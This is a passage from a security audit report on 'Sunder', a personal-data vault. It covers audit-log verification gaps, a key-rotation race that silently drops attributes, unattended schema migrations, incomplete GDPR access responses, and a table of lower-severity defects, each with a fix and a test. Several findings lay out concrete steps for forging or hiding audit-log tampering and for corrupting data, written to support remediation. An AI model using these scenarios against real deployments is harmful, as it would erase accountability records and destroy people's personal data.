**Root cause.** The closer's idempotency key lives in a table the (post-compromise untrusted) API role can append to, and the closer's response to a conflicting key is to abandon the hour permanently rather than to fail loudly. No guard restricts insertion of `audit.reads_hourly` rows to the closer, and no uniqueness constraint exists on the hour.

**Fix.** (a) Make `audit_reads_hourly_idx` UNIQUE on `((detail::jsonb)->>'hour') WHERE action='audit.reads_hourly'`, so a second row for an hour is refused at the database rather than skipping the hour. (b) Add a BEFORE INSERT trigger on `audit` rejecting `action='audit.reads_hourly'` whose `detail->>'hour'` is not strictly older than `date_trunc('hour', now())` — or, simpler and stronger, move the hour marker out of `audit` into a dedicated `audit_read_hours (hour PRIMARY KEY, digest, buckets, events)` table writable only by the closer's role, keeping the chained `audit` row as the copy that is hashed. (c) On finding a marker for an hour that still has open buckets, `closeOneHour` should log/raise and surface a distinct verify reason rather than silently skipping that hour forever.

**Test required.** Insert one open bucket in a past hour, then insert a forged `audit.reads_hourly` row for that same hour with a plain INSERT; assert the forged INSERT is refused (unique violation or trigger). Second assertion, with the guard temporarily off: `CloseReadBuckets` must not return 0 hours while genuine open buckets exist in a finished hour — it must either close them or return a distinguishable error.

### AUDIT-CHAIN-3 — The HTTP audit-verify endpoint never verifies read buckets, so it answers `ok:true` while `sunder verify-audit` reports the read log as tampered
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY
**Location:** `internal/api/audit.go:25-62` (handleAuditVerify) vs `cmd/sunder/main.go:495-503` (verifyAuditCmd); `internal/audit/reads.go:290-395` (VerifyReadBuckets, one non-test caller); `internal/audit/audit.go:383` (Verify walks only the `audit` table); package comment `internal/api/audit.go:11-14`

**Problem.** `handleAuditVerify` calls `audit.Verify` and nothing else, building `{ok, pending, sealing}`. `audit.VerifyReadBuckets` — the only thing that recomputes the digests protecting read events under the default `SUNDER_AUDIT_READS=bucketed` — has exactly one non-test caller in the repo, `verifyAuditCmd` (main.go:497), which does treat `badHour` as a hard failure (`:500-503`). The handler's own package comment claims parity ("these two endpoints expose the same verdict over HTTP so a dashboard — or the playground's chain panel — can show it without shell access to the host"), and the response even carries `"sealing": audit.Mode()`, but no read-mode field and no bucket verdict. `audit.Verify` covers only rows in the `audit` table (`FROM audit WHERE hash IS NOT NULL`); sealed buckets are covered solely by the digest check the endpoint skips.

**Failure / attack scenario.**
1. Take the confirmed state produced by AUDIT-CHAIN-2 (or any sealed-bucket edit, which `reads_test.go`'s `TestVerifyReadBucketsDetectsTampering` exercises).
2. `sunder verify-audit` exits non-zero with `read buckets BROKEN for hour 2026-08-26T22:00:00Z: chained hourly row exists but its sealed buckets are gone`.
3. Call `GET /v1/admin/audit/verify` against the same database in the same instant: `audit.Verify` walks only the `audit` table, finds a dense, correctly linked chain, and the handler returns `200 {"ok":true,"pending":0,"sealing":"async"}`.
4. A monitoring loop or the playground chain panel — the stated consumers — shows green.

**Impact.** The surface most likely to be wired to alerting is blind to tampering with the read log, which under the default posture is where `lookup`, `attributes.read`, `files.read`, `shares.fetch`, `tokens.read` and `versions` events live. An attacker who edits or removes sealed read buckets — hiding *who looked at whom*, the disclosure record Article 15 depends on — leaves the HTTP verdict untouched. The two surfaces disagreeing also devalues both; a prior review round already fixed a different CLI/HTTP verdict divergence (the sync-pending case, api/audit.go:50-58), so parity is an accepted requirement here. It is a monitoring/parity gap rather than a new tampering capability — the CLI still detects it, and exploitation still needs DB-level write access to buckets, which the 0022 guard refuses without a trigger bypass — hence MEDIUM.

**Root cause.** Read-bucket attestation (P4.2) was added to the CLI verifier but never wired into the HTTP verifier introduced for the same purpose. There is no shared "verify everything" function that both call, so the two verdicts drift independently as new attestation mechanisms are added.

**Fix.** Factor the CLI's verification sequence into one exported function (`audit.VerifyAll(ctx, pool) (Report, error)`) covering `Verify`, `VerifyReadBuckets` and, where a CA is configured, `VerifyAnchors`, and call it from both `verifyAuditCmd` and `handleAuditVerify`. At minimum, have `handleAuditVerify` also call `VerifyReadBuckets` and fold `badHour`/`reason` into `ok`, adding `"reads": audit.ReadsMode()` and `"pending_hours"` to the body so the HTTP verdict is complete and self-describing. (See also AUDIT-CHAIN-6 below: the same endpoint has no anchor dimension.)

**Test required.** API-level test: seal a read hour, tamper with a sealed bucket (as `TestVerifyReadBucketsDetectsTampering` does), then assert `GET /v1/admin/audit/verify` returns `ok:false` with a reason, and that its verdict matches `verifyAuditCmd`'s exit status for the same database in both directions (clean and tampered).

### TOKENS-LOOKUP-2 — The rekey sweep's "guarded write" cannot detect a concurrent blob write that keeps the same `(key_id, alg)`, so the documented online algorithm migration silently loses attributes
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY
**Location:** `internal/service/rekey.go:107-110` (unlocked pool read), `:144` (decrypt), `:162-186` (the guarded UPDATE and `stats.BlobsReenc++` at `:180-182`); competing writer `internal/service/contacts.go:585-629` (mergeIntoBlob, `pii_key_id`/`pii_alg` from the WRITING process, `updated_at` bumped at `:626-628`); `internal/service/keyring.go:30`, `:85-99`, `:105`, `:121`; `docs/RUNBOOK-ALG-MIGRATION.md` steps 2-3

**Problem.** `rekeyPerson` reads a person's blobs on the pool with no lock and no transaction (rekey.go:108-110), decrypts them (a signer round trip), then writes back with:

```sql
UPDATE cids SET pii_encrypted=$2, pii_key_id=$3, pii_alg=$4
 WHERE cid=$1 AND COALESCE(pii_key_id,'v1')=$5 AND COALESCE(pii_alg,'aes256gcm')=$6
```

binding `$5`/`$6` to the values it READ. The comment at rekey.go:170-173 claims this detects a concurrent re-encryption. It only detects a concurrent write that CHANGED the key version or the algorithm. That pair is not an optimistic-concurrency token — it is the pair the sweep is trying to change, and it is stable across the concurrent write in exactly the cases the sweep runs in. `mergeIntoBlob`'s `FOR UPDATE OF c, p` does not help: rekey's UPDATE is not in that transaction, so it simply blocks, then re-evaluates the qual against the NEW tuple under READ COMMITTED, finds `(key_id, alg)` unchanged, and clobbers. `RowsAffected()` is 1, so the lost write is counted as a success (`stats.BlobsReenc++`). The row already carries a real version marker, `cids.updated_at`, which `mergeIntoBlob` sets and the sweep deliberately does not — and never reads.

**Failure / attack scenario.** Scenario A — the documented algorithm migration (RUNBOOK-ALG-MIGRATION.md steps 2-3 explicitly bless a rolling restart plus a live sweep):
1. `sunder keys rotate -kind pii-kek` → v2 ACTIVE. All replicas converge on v2 within 30s.
2. Rolling restart to `SUNDER_PII_ALG=xchacha20poly1305`. Replica R1 is restarted; replica R2 has not been and still writes `aes256gcm` (the runbook: "replicas on the old setting keep writing the old algorithm").
3. `sunder keys rekey -batch 500` starts (its own process has `PIIAlg=xchacha20poly1305`, `newestKEK=v2`).
4. The sweep reads cid X: blob=B0, `key_id='v2'`, `alg='aes256gcm'`. Guard values captured as `('v2','aes256gcm')`. It decrypts B0 (signer RPC, milliseconds) and encrypts B1 = B0 under (v2, xchacha).
5. Meanwhile a `POST /v1/contacts` (or `POST /v1/claims/external`) lands on R2 for the same cid: `mergeIntoBlob` takes `FOR UPDATE OF c,p`, merges `{iban: 'HR…'}` into B0, encrypts under `Ring.Newest(pii-kek)='v2'` with R2's `Algorithm()='aes256gcm'`, writes B2 with `pii_key_id='v2'`, `pii_alg='aes256gcm'`, COMMIT.
6. The sweep's UPDATE executes. Qual: `cid=X AND pii_key_id='v2' AND pii_alg='aes256gcm'` → TRUE against B2's tuple. The row becomes B1, which does not contain `iban`.
7. The `iban` attribute is gone. No error, no log, `BlobsReenc` incremented.

Scenario B — plain KEK rotation with no algorithm change:
1. `sunder keys rotate -kind pii-kek` → v2. `KeyRing` caches are per-replica with a 30s TTL and `Invalidate()` is process-local (keyring.go:30, 85-99), so replica R2 keeps returning `newest='v1'` for up to 30s.
2. The sweep (a fresh process, `newest='v2'`) reads cid X at `('v1','aes256gcm')`.
3. R2's `mergeIntoBlob` writes the merged blob back under `('v1','aes256gcm')` — its cached newest.
4. The sweep's guard `('v1','aes256gcm')` still matches → clobber.

**Impact.** Silent, unrecoverable loss of personal data written during a key/algorithm migration — exactly the window the sweep exists for, and the one the runbook says needs no downtime. Losses are invisible: the operator's only feedback is `blob(s) re-encrypted`, which counts clobbers as successes, and the runbook's verification step (`SELECT pii_alg, count(*) …`) cannot see them. F6 version history does not help either: `appendVersion` runs inside `mergeIntoBlob`'s transaction, so the snapshot it took is of the PRE-merge blob, not of the lost post-merge state. Once the fleet is converged the guard does fence correctly (0 rows → Skipped), so the exposure is the conjunction of a running sweep, a stale writer, and a concurrent merge on the exact cid being processed.

**Root cause.** `(key_id, alg)` used as an optimistic-concurrency token when it is the value being changed and is stable across the racing write.

**Fix.** Make the guard a genuine compare-and-swap on a column the concurrent writer always moves. Add `updated_at` to the read (rekey.go:109) and to the qual:

```sql
SELECT cid, COALESCE(pii_encrypted,''::bytea), COALESCE(pii_key_id,'v1'),
       COALESCE(pii_alg,'aes256gcm'), updated_at FROM cids WHERE person_id=$1;

UPDATE cids SET pii_encrypted=$2, pii_key_id=$3, pii_alg=$4
 WHERE cid=$1 AND updated_at = $5;
```

(keeping `updated_at` unset by the sweep so the retention clock is not reset). Alternatively do the read and write in one transaction with `SELECT … FROM cids c JOIN persons p ON p.id=c.person_id WHERE c.cid=$1 AND p.erased_at IS NULL FOR UPDATE OF c, p` — the same c→p order `erasePerson` uses — and re-encrypt inside it, which also closes GDPR-ERASURE-2 (§3). Stop counting a 0-row UPDATE as Skipped-but-fine: surface it as a distinct "raced" counter so a rerun is known to be required.

**Test required.** Register a contact, then (a) set its row to `(key_id='v1', alg='aes256gcm')`, (b) start `rekeyPerson` with a test hook that blocks between the decrypt and the UPDATE, (c) from the hook run a merge adding attribute `probe=1` and commit, (d) release the sweep, (e) decrypt the row and assert `probe` is still present. It fails today. A second case pins Scenario B: force the writer's `KeyRing` to report the old version and assert the same.

### OPS-CLI-CONFIG-5 — Helm cron jobs apply schema migrations under `image.opsTag`, a tag set independently of the serving `image.tag`
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATABASE
**Location:** `deploy/helm/sunder/templates/cronjobs.yaml:36-37` (anchor), `:82-83` (retention), `:107-111` (verify-audit) — all `image: {{ .Values.image.repository }}:{{ .Values.image.opsTag }}`; `cmd/sunder/main.go:303` (retentionCmd → `st.Migrate`), `:443` (anchorCmd), `:479` (verifyAuditCmd); `deploy/helm/sunder/values.yaml:2-5`; `internal/store/store.go:59-87` (all pending migrations in one transaction under `pg_advisory_xact_lock`); contrast `deploy/provision/provision.sh:60-70` and `cmd/sunder/main.go:1189-1190` (sealer deliberately skips Migrate)

**Problem.** Three of the four CronJobs the chart ships run `sunder` subcommands that unconditionally call `st.Migrate(ctx)` before doing their work, and all three run the **ops** image, tagged from `.Values.image.opsTag` — a value with no template-level relationship to `.Values.image.tag` used by the Deployment, and no guard (the chart's only `fail()` is the keystore-type check at deployment.yaml:1-3). `sunder migrate` therefore executes as a side effect of a nightly anchoring/retention/verification job, from a binary that may be newer or older than the one serving traffic. The project is aware of the hazard elsewhere: provision.sh:66-70 refuses to run when `image.tag` is unpinned, with the comment "applying migrations with a different binary is a schema/binary skew risk", and `sealerCmd` skips Migrate entirely because "the sealer's restricted role may lack DDL rights, and a sealer must never be the thing that alters the schema".

**Failure / attack scenario.**
1. An operator bumps `image.opsTag: v0.5.0-ops` (or a CI job templates the two tags from different sources) while `image.tag` stays at `v0.4.0`.
2. At 02:17 the anchor CronJob starts. `anchorCmd` calls `st.Migrate`, takes `pg_advisory_xact_lock(0x53554E4D)` and applies every migration the v0.5.0 binary embeds — in one transaction — then commits.
3. The v0.4.0 API pods, which never restart, are now serving against a schema they were not built for.
4. If the new set contains anything like the already-shipped `0016_portal_payload.sql` (`DELETE FROM portal_outbox; DELETE FROM portal_email_throttle;` followed by `ALTER TABLE portal_outbox DROP COLUMN email, DROP COLUMN token`), the cron job silently destroys queued portal mail and removes columns the running binary still reads.

**Impact.** Schema and destructive data migrations execute unattended, off the release path, from a container the operator thinks of as "the cron image", against pods running different code. The failure mode is a mid-night partial outage or silent data destruction with no deploy event to correlate it to. It also breaks the least-privilege story the chart otherwise tells. It requires an operator to skew the two tags, and the default values pin both to the same release — hence MEDIUM.

**Root cause.** `st.Migrate` is embedded in nearly every CLI subcommand as a convenience (so `sunder client create` works on a fresh DB) rather than being a distinct, deliberately-invoked operation; the chart then multiplies that by giving cron workloads their own independently-versioned image tag.

**Fix.** (1) In the chart, either derive the ops tag (`{{ .Values.image.opsTag | default (printf "%s-ops" .Values.image.tag) }}`) or add a `{{- if ne (trimSuffix "-ops" .Values.image.opsTag) .Values.image.tag }}{{ fail … }}{{- end }}` guard next to the existing keystore guard. (2) In the binary, stop migrating implicitly from maintenance commands: give `anchorCmd`, `retentionCmd` and `verifyAuditCmd` a schema *check* (compare the embedded migration list against `schema_migrations` and error with "run `sunder migrate`") instead of `st.Migrate`, matching `sealerCmd`. Keep the implicit migrate only for `serve`, `migrate` and `bootstrap` — which also resolves OPS-CLI-CONFIG-6 (§7) if migrations move to a pre-upgrade Job.

**Test required.** Helm unit test (`helm template` + assertion) that a values file with mismatched `tag`/`opsTag` fails rendering. Go test: apply migrations up to N-1 into a test database, then call `retentionCmd`/`anchorCmd`/`verifyAuditCmd` and assert they return a "schema out of date, run sunder migrate" error and that `SELECT count(*) FROM schema_migrations` is unchanged.

### GAP-2 — Article 15 right of access omits the recipients of disclosures: `shared_records` (partner_label), `files`, `person_links` and `value_tokens` appear in no subject-facing response, and the returned audit trail strips `detail`
**Severity:** MEDIUM | **Confidence:** PLAUSIBLE | **Verdict:** PLAUSIBLE (raised by completeness critic; not independently verified) | **Category:** DATA_INTEGRITY
**Location:** `internal/service/gdpr.go:169-174` (`ScopeData` — the only shape any access path returns), `:178-184` (AuditTrailEntry), `:230-303` (accessPerson: `cids` at `:231-233`, `consentsFor` at `:252`, audit trail at `:270-272` selecting only `seq/ts/client_id/action/cid/user_id`, `audit_read_buckets` at `:286-289`), `:200-225` (GDPR.Access), `:323-355` (GDPR.Export); `internal/service/portal.go:457-469` (Portal.Data); omitted stores `internal/store/migrations/0029` (`shared_records.partner_label`, `fields`, `purpose`), `0026` (`files.name/size_bytes/sha256/content_type`), `0028` (`person_links`), `0025`/`0032` (`value_tokens`); `internal/service/shares.go:85-101`

**Problem.** All three subject-facing surfaces — the privacy officer's `GDPR.Access`, the portability `GDPR.Export`, and the data subject's own `Portal.Data` — funnel through the single struct `ScopeData{Scope, CID, Attributes, Consents}` plus an audit trail. `accessPerson` reads exactly three sources: `cids`, `consents`, and the audit rows/read buckets for the person's CIDs. It never reads `shared_records`, which is the system's record of a deliberate disclosure to a named third party and carries `partner_label` (the recipient), `fields[]` (what was disclosed) and `purpose`. It never reads `files` (name, size, sha256, content type), `person_links` (the parent/child relationships the vault asserts about them), or `value_tokens` (sealed IBANs/PANs/national ids bound to their cid since migration 0032). The audit trail cannot compensate: the query at gdpr.go:270-272 selects only `seq, ts, client_id, action, cid, user_id` — `audit.detail`, where `shares.create` would record the partner label, is deliberately not selected.

**Failure / attack scenario.**
1. A client with `shares.create` calls `POST /v1/shares` for a person's cid with `partner_label: "Acme Collections BV"`, `fields: ["email","phone"]`, `purpose: "debt_recovery"`. `Shares.Create` (shares.go:85-101) commits the row and the partner fetches it repeatedly at `GET /v1/shares/{uuid}`.
2. The same person uploads two documents through `POST /v1/contacts/{cid}/files` and has three IBANs tokenized under `POST /v1/tokens` with a non-NULL cid.
3. The person exercises Article 15: they log into the privacy portal and call `GET /portal/api/data` → `Portal.Data` → `accessPerson`. The response is `{scopes: [{scope, cid, attributes, consents}], audit_trail: [...]}`.
4. The response contains no `shared_records` entry, so "Acme Collections BV" appears nowhere. The audit trail shows rows with `action="shares.create"` and `action="shares.fetch"` and the acting `client_id`, but `detail` is not selected, so the recipient's label, the disclosed field list and the purpose are absent. The two uploaded files and the three tokenized IBANs are likewise absent.
5. The privacy officer runs `GET /v1/dsr/access` and `GET /v1/dsr/export` and gets the identical shape, so there is no second path that would surface it.

**Impact.** Article 15(1)(c) grants the data subject the recipients or categories of recipient to whom their personal data have been disclosed; `shared_records.partner_label` is exactly that record, stored but never disclosed. Article 15(1) and 15(3) further require the categories of data being processed and a copy of it — the file vault's contents and the cid-bound value tokens are personal data the vault holds and neither is enumerated. An operator relying on Sunder's DSR endpoints to answer a subject access request returns a materially incomplete answer while believing the product produced it. It also degrades the erasure story: a subject who cannot see that a share exists cannot ask for it to be revoked before its TTL.

**Root cause.** `ScopeData` was designed around the encrypted attribute blob and grew no slots as the product added disclosure, file, linkage and tokenization stores in migrations 0025-0032. Each new store added an erasure obligation (and `internal/service/erasure_sweep_test.go` enforces that side by discovering person-linked tables and forcing a decision) but no access obligation, and there is no equivalent completeness gate on the read side.

**Fix.** Extend `ScopeData` (gdpr.go:169-174) with `Disclosures []Disclosure`, `Files []FileRef`, `Links []LinkRef` and `ValueTokens []TokenRef`, and populate them in `accessPerson` (gdpr.go:230) per cid: `SELECT uuid, partner_label, fields, purpose, created_at, expires_at, revoked_at FROM shared_records WHERE cid=$1`; `SELECT id, name, content_type, size_bytes, sha256, created_at, expires_at FROM files WHERE cid=$1`; `SELECT parent_person, child_person, scope, link_type, created_at FROM person_links WHERE parent_person=$1 OR child_person=$1` (person-keyed, so hoist it out of the per-cid loop); `SELECT token, token_type, created_at, expires_final FROM value_tokens WHERE cid=$1` (handles, never the ciphertext). Apply attribute narrowing only where the officer path already narrows; the portal path is the subject's own data and must not narrow. Do not widen the audit trail to include raw `detail` — carry the recipient explicitly in the new `Disclosure` rows, so the answer does not depend on what a client happened to put in a free-form map.

**Test required.** A table-driven access-completeness test mirroring `erasure_sweep_test.go`: discover every table carrying a `cid` or `person_id` column from `information_schema.columns`, and for each require it to be listed either in an explicit `accessExempt` set (with the legal reason as the map value — `audit`/`audit_read_buckets` as the trail itself, `erasures`/`erasure_events` as accountability records, `portal_sessions`/`portal_tokens` as credentials) or covered by an assertion that a row written into it appears in `accessPerson`'s output. Seed one `shared_records` row with `partner_label='Acme Collections BV'`, one `files` row and one cid-bound `value_tokens` row, then assert the marshalled `Portal.Data`, `GDPR.Access` and `GDPR.Export` responses each contain the string `Acme Collections BV` and the file name — all three fail today.

#### LOW / INFORMATIONAL — data integrity & database

| ID | Severity | Title | Location | Fix |
|---|---|---|---|---|
| DB-TXN-8 / FILES-STORAGE-4 | LOW | `Files.UploadWithExpiry` mints a `person_record_keys` row on the pool in autocommit, 70 lines before the transaction whose `FOR UPDATE OF p` tombstone check would have refused it. The FK (`person_id UUID PRIMARY KEY REFERENCES persons(id)`, 0026:10-11) makes the bad ordering the LIKELY one: the INSERT's `FOR KEY SHARE` blocks behind erasure's `FOR UPDATE` and lands right after `ShredRecordKey` has run, so a rolled-back upload leaves freshly minted KEK-wrapped key material for an erased person. Nothing removes it — the only DELETE is the shred itself, a second erase is refused by the idempotency guard, and `rekeyVaults` re-wraps it under every new KEK forever. Not a confidentiality break: the key is fresh random, unrelated to the shredded one | `internal/service/files.go:124-161` (INSERT at `:148-153`) called at `:193`; tx opened at `:262`, guard at `:275-283`; erasure `internal/service/gdpr.go:459-483`, `internal/service/files.go:475-487`; `internal/service/rekey.go:295,328` | Split `recordKey` into a load helper and a mint helper taking a `pgx.Tx`, and reorder `UploadWithExpiry` so the tx opens, the `FOR UPDATE OF p` check runs, then the key is loaded-or-minted on the tx. Defensively add `AND NOT EXISTS (SELECT 1 FROM persons WHERE id=$1 AND erased_at IS NOT NULL)` to the INSERT, or a guard trigger. Failing that, add `DELETE FROM person_record_keys prk USING persons p WHERE p.id=prk.person_id AND p.erased_at IS NOT NULL` to the retention sweep |
| DB-TXN-9 | LOW | `clientGrantCmd` applies a credential change as several un-transacted `Pool.Exec` UPDATEs after a separate expiry read, so `-role admin -attributes iban,name` can widen the action set and then fail the attribute narrowing, leaving the client strictly broader than either endpoint; and the L10 expiry check is a read on one connection that the write does not depend on (a TOCTOU with `rotate-secret -no-expiry`, requiring two concurrent operators). No audit row marks the change | `cmd/sunder/main.go:194-208` (checkUnlockAgainstExpiry, no `FOR UPDATE`), `:211-283` (UPDATEs at `:238-242`, `:257-262`, `:265`, `:266-278`) | Wrap the whole command in one `pool.Begin`, open it with `SELECT 1 FROM clients WHERE client_id=$1 FOR UPDATE`, run every UPDATE and an `audit.AppendTx` for `client.grant` on the tx, and commit. Add the same row lock to `RotateSecret`'s expiry clear. See also OPS-CLI-CONFIG-10 (§7) and OPS-CLI-CONFIG-3 (§5), same command |
| GDPR-ERASURE-8 | LOW | `DeliverPendingMail` reads `payload/key_id/alg` into a Go slice and COMMITS the SENDING claim before any decrypt or HTTP, so `erasePerson`'s `DELETE FROM portal_outbox WHERE person_id=$1` cannot recall a payload the worker already holds: the erased person's e-mail address is POSTed to the org's mailer after the erasure returned 200, contradicting gdpr.go:546-548. `settleMail` then updates 0 rows but still appends a `portal.mail.delivered` audit entry asserting a delivery that should not have happened. The token itself is inert — `Redeem` requires a `portal_tokens` row, deleted at gdpr.go:551 | `internal/service/portal.go:220-310` (claim commit `:261-273`, decrypt `:277`, POST `:288` via `:372-410`), `:314-331`; `internal/service/gdpr.go:551-552` | Re-validate immediately before the POST rather than relying on the claim: `SELECT EXISTS (SELECT 1 FROM portal_outbox o JOIN persons pe ON pe.id=o.person_id WHERE o.id=$1 AND o.status='SENDING' AND pe.erased_at IS NULL)` and `continue` on failure, narrowing the exposure to the sub-millisecond gap. Have `erasePerson` mark rather than delete (`UPDATE portal_outbox SET status='FAILED' WHERE person_id=$1`) so the guard has an unambiguous row to test, and shrink the claim batch |
| GDPR-ERASURE-9 | LOW | `portal_email_throttle` is keyed solely by `email_token` — the same keyed-HMAC construction `person_tokens` stores and that erasure deletes at gdpr.go:516 as personal data — with no `person_id` and no `cid`, so `erasePerson` cannot reach it and the erasure-sweep completeness test (which discovers tables by person-shaped column names) structurally cannot see it. Rows are written only on the HIT path (`Portal.Start` returns early at `:118-120`, and `findPersonByEmail` requires `erased_at IS NULL`), so a surviving row proves the address belonged to a live registered person. The only cleanup is a 1-day `DELETE` inside `PrunePortal`, which runs from the `retention run` cron, not from any in-process worker | `internal/service/portal.go:155-182` (upsert `:169-177`), `:670`; `internal/store/migrations/0014_portal_outbox.sql`, `0016`; `internal/service/gdpr.go:448-592` | Inside the erasure transaction, BEFORE the `person_tokens` DELETE at gdpr.go:516, run `DELETE FROM portal_email_throttle WHERE email_token IN (SELECT convert_to(token,'UTF8') FROM person_tokens WHERE person_id=$1 AND kind='email')` — `allowEmailSend` stores `[]byte(tok)`, the same UTF-8 bytes. Tighten portal.go:670 to `window_start < now() - $1` using the real `portalSendWindow` plus a margin. Add `portal_email_throttle` to the erasure sweep decision map with a written reason |
| AUDIT-CHAIN-6 | LOW | `Verify` accepts any prefix of the chain (density is checked only relative to the rows present, `expect` counting from 1, with no stored high-water mark of `chain_seq`), and `verifyAuditCmd` returns nil — exit 0 — when zero anchors are stored, while the strictly *stronger* state (anchors present, no CA bundle) is treated as a failure two lines later. `handleAuditVerify` has no anchor dimension at all. Tail truncation itself is documented as accepted (THREAT-MODEL.md:124-126, :131-133) and needs owner-level `ALTER TABLE … DISABLE TRIGGER`; the new defect is the exit-0 verdict that certifies nothing | `internal/audit/audit.go:382-426`; `cmd/sunder/main.go:517-522` vs `:523-525`; `internal/api/audit.go:44-49` | Make the absence of anchors a failure — or an explicit non-zero "unverifiable" verdict — mirroring how a missing CA bundle is already treated. Surface an anchor dimension in `handleAuditVerify` (newest anchor's age and in-chain status) so a dashboard can alarm on "chain intact but last anchored 9 days ago". Record `max(chain_seq)` alongside `root_hash` at anchor time and have `Verify` refuse a chain shorter than the highest anchored `chain_seq`; ship a role separation in which the API role does not own `audit` |
| FILES-STORAGE-1 | LOW | The upload's compensation treats `tx.Commit(ctx) != nil` as proof nothing was written, but a commit that fails at the transport level (ctx cancelled while COMMIT is in flight, pooled-connection death) is AMBIGUOUS. On that path `committed` stays false and the reap defer — which deliberately runs under `context.WithoutCancel(ctx)`, i.e. is immune to the very cancellation that caused the failure — deletes the object while the `files` row survives. The row is then unrepairable: `RunFileGC` only enumerates `gc_at IS NOT NULL`, and the phantom row has `gc_at` and `expires_at` NULL, so `List` shows it and `Download` fails forever. Window is milliseconds and the client sees a 500 | `internal/service/files.go:249-256`, `:296-299`; `:492-527` (RunFileGC) | On the commit-error path only, re-check existence on a fresh connection before deleting — `SELECT 1 FROM files WHERE id=$1` under `context.WithoutCancel(ctx)` — and reap only on `pgx.ErrNoRows`, leaving the object for a GC sweep on any probe error. Better: invert the ordering into a two-phase write — INSERT the row with `gc_at = now()` and commit, PUT the object, then `UPDATE files SET gc_at = NULL` — so no path can delete an object a live row references. That also fixes FILES-STORAGE-3 (§7) |
| FILES-STORAGE-6 | LOW | The multipart part's `Content-Type` is stored and reflected unvalidated and effectively unbounded: `name` is length-checked and the download filename sanitised, but the content type is only defaulted when empty, stored verbatim in `content_type TEXT NOT NULL` and echoed as the download's `Content-Type`. Bounded only by `MaxBytesReader` intersected with `mime/multipart`'s 10 MiB header cap, so multiple MiB of arbitrary text can be stored per 1-byte file and echoed by `Files.List`. Not header injection (Go sanitises CR/LF) and not XSS (`Content-Disposition: attachment` is unconditional); `nosniff` is set only on the portal handlers | `internal/api/files.go:89-90`, `:117`, `:119`, `:60`; `internal/service/files.go:176-181`, `:284-287`; contrast `internal/api/portal.go:69`, `:246` | Validate `contentType` in `UploadWithExpiry` alongside `name`: cap at 255 bytes and require it to parse via `mime.ParseMediaType` with an RFC-7230 token/charset character class, falling back to `application/octet-stream`. On download, emit the sanitised stored value plus `X-Content-Type-Options: nosniff` |
| QUEUE-WORKER-4 | LOW | Every outbox state transition is keyed on `WHERE id=$1` alone, with no `AND status='SENDING'` and no claim token, and no `RowsAffected` check — so a worker whose claim was reaped (QUEUE-WORKER-2, §4) still writes: A settles DELIVERED, B's later transient UPDATE flips the row back to PENDING and it is mailed again. Two of the filed claims are refuted: the "masking" half cannot happen (`settleMail(…,"DELIVERED")` is only reached on `err == nil` from that worker's own send), and the loop is not unbounded (`portal.go:298-300` settles FAILED past `it.expires` and `PrunePortal` deletes expired PENDING rows). The `erasure_events` variant needs `attempts` exactly at the cap and a two-statement window on one goroutine | `internal/service/portal.go:302-305`, `:320-322`; `internal/service/gdpr.go:722-726`, `:734-736` | Make every settle a guarded transition and check `RowsAffected`: add `AND status='SENDING'` to portal.go:302 and :320 and to gdpr.go:723 and :735. On `RowsAffected()==0` the claim was lost — skip the audit append (do not record an outcome for a row you no longer own) and log at WARN with the row id so lease theft is observable. Stronger: write a `claim_id UUID` alongside `claimed_at` and make every settle `AND claim_id=$n` |
| AUDIT-CHAIN-8 | INFORMATIONAL | `audit_read_buckets` grows as O(distinct (client_id, user_id, cid, action) × hours) and is undeletable: `audit_read_buckets_guard` raises on every DELETE and TRUNCATE (the only permitted branch is an UPDATE on an unsealed row counting up or sealing), and a repo-wide `grep 'func Prune'` returns six functions, none touching `audit` or `audit_read_buckets`. So an org retention policy for read-access records can only be satisfied by disabling the integrity trigger — the one action the design treats as tampering. This is the table's stated design, not an oversight (0022's header calls the log "never pruned"), the `audit` table has had the identical property since 0001, and buckets are strictly smaller than the per-event chained rows they replaced; no docs promise a read-bucket TTL | `internal/store/migrations/0022_audit_read_buckets.sql`; `internal/service/gdpr.go:766+` and the `Prune*` family; `cmd/sunder/main.go:299-375`; read path `internal/service/gdpr.go:287` | Add a bounded, audited retention path rather than relaxing the trigger: `PruneReadBuckets(ctx, pool, olderThan)` deleting only SEALED rows older than a configured `SUNDER_AUDIT_READS_TTL`, inside a transaction that first writes a chained `audit.reads_pruned` row recording the hour range and row count, permitted by the guard only when a session-local marker set by that transaction is present. Wire it into `retentionCmd`, retain the chained hourly row as the surviving evidence, and have `VerifyReadBuckets` treat a pruned hour as expected rather than as "sealed buckets are gone" |

---

## 7. Reliability, Error Handling & Performance Findings

Sunder handles the failure modes it anticipated in the request path and almost none of the ones that occur outside it. Inside a request the posture is good: `Files.Upload` compensates a partial upload on every no-commit path under `context.WithoutCancel` with its own 30s budget (files.go:249-256), both outbox workers claim with `FOR UPDATE SKIP LOCKED` and separate transient retry from terminal failure with an attempt cap, migrations run under a blocking advisory lock, and `sealerCmd` logs and continues rather than exiting on a transient DB error (main.go:1214-1222). Outside it, three classes of failure are invisible or unrecoverable. First, **nothing that was started in the background is drained, waited on, or acked on a context that outlives its trigger**: the delivery goroutine and the four other goroutines `Run` starts are abandoned at shutdown, and every post-POST write reuses the same cancelled context, so a send that already reached the peer cannot be recorded (QUEUE-WORKER-3), with CONCURRENCY-CORE-5 a symptom of the same missing WaitGroup. Second, **error classification collapses distinct causes into one terminal outcome**: an unreachable signer or a Vault failover is recorded as an unopenable payload and the only copy of a live portal token is destroyed (QUEUE-WORKER-5); a webhook row that does not exist *yet* is recorded as a message that can never be delivered (QUEUE-WORKER-6); a storage `Delete` that fails permanently is retried forever ahead of everything behind it and the sweep reports success (FILES-STORAGE-7); and a `client grant` against a mistyped id prints "updated" and exits 0 (OPS-CLI-CONFIG-10). Third, **the health of background work is not observable at all**: the gauge the threat model calls "the alarm" has no alert rule, `verify-audit` exits 0 on any async backlog, and the sealer Deployment has no probe, so a wedged sealer is silent indefinitely (OPS-CLI-CONFIG-8) — while a *benign* unchanged head permanently makes the anchor cross-check report tampering (AUDIT-CHAIN-4), and an async→sync rolling restart strands rows that no sealer in the fleet will ever pick up (AUDIT-CHAIN-7). Two performance findings are bounds that are stated in the code and not true of it: peak upload memory is ~4x the documented figure on the s3 driver (FILES-STORAGE-2), and the file sizes the configuration accepts cannot be moved within the server's fixed 30s transport deadlines (FILES-STORAGE-5). Two deployment findings would stop a rollout outright: no 